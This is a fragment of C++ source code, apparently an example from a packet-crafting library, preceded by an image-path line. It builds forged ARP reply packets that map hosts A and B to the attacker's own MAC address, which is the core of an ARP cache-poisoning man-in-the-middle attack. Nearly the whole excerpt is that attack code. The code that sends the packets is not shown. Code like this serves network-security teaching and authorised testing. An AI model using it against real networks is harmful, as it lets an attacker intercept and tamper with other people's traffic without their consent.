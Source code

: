 ```
	if(macA.size() == 0) {
		cout << "[@] Host " << hostA << " down. Aborting" << endl;
		return 1;
	}
	if(macB.size() == 0) {
		cout << "[@] Host " << hostB << " down. Aborting" << endl;
		return 1;
	}

	/* Print some info */
	cout << "[@] Attacker: " << MyIP  << " : " << MyMAC << endl;
	cout << "[@] HostA   : " << hostA << " : " << macA  << endl;
	cout << "[@] HostB   : " << hostB << " : " << macB  << endl;

	/* --------- Common data to all headers --------- */

	Ethernet ether_header;
	ether_header.SetSourceMAC(MyMAC);     // <-- Put my MAC as a source

	ARP arp_header;
	arp_header.SetOperation(ARP::Reply);  // <-- Set Operation (ARP Reply)

        /* ---------------------------------------------- */

	/*
	 * NOTE: Remember that each packet keeps its own copy of
	 * each layer pushed. So, you can safely modify later
	 * the <layer object> that was pushed on the packet.
	 */

	/* [++++++++++] --- Create packet for host A */
	Packet packetA;

	/* Put ethernet header information */
	ether_header.SetDestinationMAC(macA);

	/* Fill ARP header */
	arp_header.SetSenderIP(hostB);
	arp_header.SetSenderMAC(MyMAC);       // <-- Spoof IP address of host B
	arp_header.SetTargetIP(hostA);
	arp_header.SetTargetMAC(macA);

	/* Push both headers */
	packetA.PushLayer(ether_header);
	packetA.PushLayer(arp_header);
	/* Done packet for A ---------- [+++++++++++] */

	/* [++++++++++] --- Create packet for host B */
	Packet packetB;

	/* Put ethernet header information */
	ether_header.SetDestinationMAC(macB);

	/* Fill ARP header */
	arp_header.SetSenderIP(hostA);
	arp_header.SetSenderMAC(MyMAC);        // <-- Spoof IP address of host A
	arp_header.SetTargetIP(hostB);
	arp_header.SetTargetMAC(macB);

	/* Push both headers */
	packetB.PushLayer(ether_header);
	packetB.PushLayer(arp_header);
	/* Done packet for B ---------- [+++++++++++] */
```